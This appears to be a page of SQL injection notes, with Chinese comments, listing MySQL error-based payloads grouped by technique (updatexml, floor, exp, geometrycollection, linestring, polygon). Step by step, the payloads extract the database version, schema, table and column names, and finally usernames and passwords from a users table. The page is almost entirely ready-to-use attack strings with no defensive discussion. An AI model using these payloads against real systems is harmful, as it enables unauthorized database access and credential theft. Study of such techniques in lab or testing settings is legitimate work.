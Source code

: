 ```sql
and updatexml(1,concat(0x7e,( select concat(id,0x7e,username,0x7e,password) from users limit 0,1),0x7e),3) --+
```

#### floor
```sql
# 当前版本
and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 爆出一个数据库
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从当前数据库里爆出一个表名
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从当前数据库里的 users 表里爆出一个字段名来
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='security' and table_name='users' LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+

# 从 users 表里对应的列名中爆出一个数据来
and(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x23,username,0x3a,password,0x23) FROM users limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) --+
```

#### exp
```sql
and (select exp(~(select * from(select version())x))); --+
```

#### geometrycollection
```sql
and geometrycollection((select * from(select * from(select version())a)b)); --+
```

#### linestring
```sql
and linestring((select * from(select * from(select version())a)b)); --+
```

#### polygon
```sql
and polygon((select * from(select * from(select version())a)b)); --+
```
